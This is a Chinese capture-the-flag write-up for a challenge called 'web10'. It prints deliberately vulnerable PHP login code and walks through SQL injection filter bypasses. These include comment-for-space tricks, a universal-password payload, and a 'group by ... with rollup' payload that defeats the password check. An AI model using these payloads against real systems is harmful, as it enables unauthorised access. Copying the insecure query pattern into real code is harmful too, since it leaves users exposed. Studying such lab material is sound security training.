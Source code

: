# web10
```
<?php
		$flag="";
        function replaceSpecialChar($strParam){
             $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
             return preg_replace($regex,"",$strParam);
        }
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		if(strlen($username)!=strlen(replaceSpecialChar($username))){
			die("sql inject error");
		}
		if(strlen($password)!=strlen(replaceSpecialChar($password))){
			die("sql inject error");
		}
		$sql="select * from user where username = '$username'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						if($password==$row['password']){
							echo "登陆成功<br>";
							echo $flag;
						}

					 }
			}
    ?>

```
照上题一样,可以点击取消下载备份文件
审计代码
这里对一些sql关键词做了置空操作
且账号密码都进行了正则匹配,但最后只用了账号查询,在账号上进行注入
```
preg_replace($regex,"",$strParam)
```
可以想到是简单的双写绕过
有正则匹配,大小写无法绕过,这里思考一下正则没有匹配多行还是单行,可能多行匹配能绕过%0a
但是正则出现\s
\s表示,出现空白就匹配,空白指空格,换行,tab缩进等所有空白
\S表示,非空白就匹配
/**/过滤空白
但本题不需要暴库,那么就不需要双写了
直接万能密码,没有触发函数
```
1'or/**/1=1#
```

但这里还有个问题,查询的得到的结果集会对输入的password进行比对
```
if($password==$row['password']){
							echo "登陆成功<br>";
							echo $flag;
						}
```
这里思索一下首先万能密码注入会得到所有用户的结果集,再对他们的密码进行匹配最终才能得到flag
怎么绕过呢?注意到这里是弱比较,应该可以对密码进行爆破来匹配相等
弱比较:弱比较操作符会在比较之前将两边的值转换为相同的类型，然后再进行比较。它只比较值，不比较类型
例如:
```
var_dump(12 == "12"); // true
var_dump(12 == "12abc"); // true
var_dump("admin" == 0); // true
//字符串会被转换为数字进行比较。如果字符串以数字开头，则取开头的数字作为转换结果；
//如果字符串不能转换为数字或为空（null），则转换为0
```
那么最后,bp抓包,然后导入数字字典,进行爆破,理想出现全为字符的密码与0相等.

但这里好像跑不出,看了一眼题解,发现需要使用group by和with rollup
group by passsword会按照passwor的值排列
with rollup 表示统计

select password,count(*)group by passsword with rollup 这样查询到的password值会多出一行null
a'/**/or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#
![](vx_images/513872852629029.png)
